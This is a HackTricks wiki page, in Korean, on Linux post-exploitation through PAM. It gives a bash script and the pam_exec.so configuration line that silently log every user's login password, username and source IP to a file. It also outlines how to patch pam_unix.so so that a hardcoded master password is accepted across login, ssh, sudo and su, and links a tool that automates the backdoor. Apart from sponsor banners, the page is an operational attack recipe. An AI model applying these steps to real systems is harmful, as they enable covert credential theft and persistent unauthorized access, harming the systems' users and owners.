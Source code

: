 # Linux Post-Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## PAM을 이용한 로그인 비밀번호 스니핑

각 사용자가 로그인할 때 사용하는 비밀번호를 기록하기 위해 PAM 모듈을 구성해 보겠습니다. PAM이 무엇인지 모른다면 다음을 확인하세요:

{% content-ref url="pam-pluggable-authentication-modules.md" %}
[pam-pluggable-authentication-modules.md](pam-pluggable-authentication-modules.md)
{% endcontent-ref %}

**자세한 내용은 [원본 게시물](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/)을 확인하세요.** 이것은 요약입니다:

**기술 개요:**
플러그형 인증 모듈(PAM)은 유닉스 기반 시스템에서 인증 관리를 유연하게 제공합니다. 로그인 프로세스를 사용자 정의하여 보안을 강화할 수 있지만 잘못 사용될 경우 위험을 초래할 수 있습니다. 이 요약은 PAM을 사용하여 로그인 자격 증명을 캡처하는 기술과 완화 전략을 설명합니다.

**자격 증명 캡처:**
- `toomanysecrets.sh`라는 이름의 배시 스크립트가 로그인 시도를 기록하도록 작성되어, 날짜, 사용자 이름(`$PAM_USER`), 비밀번호(표준 입력을 통해), 원격 호스트 IP(`$PAM_RHOST`)를 `/var/log/toomanysecrets.log`에 캡처합니다.
- 이 스크립트는 실행 가능하게 만들어지고 `pam_exec.so` 모듈을 사용하여 PAM 구성(`common-auth`)에 통합되며, 조용히 실행하고 인증 토큰을 스크립트에 노출하는 옵션이 포함됩니다.
- 이 접근 방식은 손상된 리눅스 호스트가 자격 증명을 은밀하게 기록하는 데 어떻게 악용될 수 있는지를 보여줍니다.
```bash
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
sudo nano /etc/pam.d/common-auth
# Add: auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh
sudo chmod 700 /usr/local/bin/toomanysecrets.sh
```
### Backdooring PAM

**자세한 내용은 [원본 게시물](https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9)을 확인하세요**. 이것은 요약입니다:

Pluggable Authentication Module (PAM)은 Linux에서 사용자 인증을 위해 사용되는 시스템입니다. 이는 세 가지 주요 개념인 **사용자 이름**, **비밀번호**, **서비스**를 기반으로 작동합니다. 각 서비스의 구성 파일은 `/etc/pam.d/` 디렉토리에 위치하며, 공유 라이브러리가 인증을 처리합니다.

**목표**: 특정 비밀번호로 인증을 허용하도록 PAM을 수정하여 실제 사용자 비밀번호를 우회합니다. 이는 비밀번호 검증을 위해 거의 모든 서비스에 포함된 `common-auth` 파일에서 사용되는 `pam_unix.so` 공유 라이브러리에 특히 초점을 맞춥니다.

### `pam_unix.so` 수정 단계:

1. **`common-auth` 파일에서 인증 지시문 찾기**:
- 사용자의 비밀번호를 확인하는 책임이 있는 줄이 `pam_unix.so`를 호출합니다.
2. **소스 코드 수정**:
- 미리 정의된 비밀번호가 사용될 경우 접근을 허용하는 조건문을 `pam_unix_auth.c` 소스 파일에 추가하고, 그렇지 않으면 일반 인증 프로세스를 진행합니다.
3. **수정된 `pam_unix.so` 라이브러리를 적절한 디렉토리에 재컴파일하고 교체합니다.**
4. **테스트**:
- 미리 정의된 비밀번호로 다양한 서비스(로그인, ssh, sudo, su, 스크린세이버)에 접근이 허용되며, 일반 인증 프로세스는 영향을 받지 않습니다.

{% hint style="info" %}
이 프로세스를 [https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)로 자동화할 수 있습니다.
{% endhint %}

{% hint style="success" %}
AWS 해킹 배우고 연습하기:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP 해킹 배우고 연습하기: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
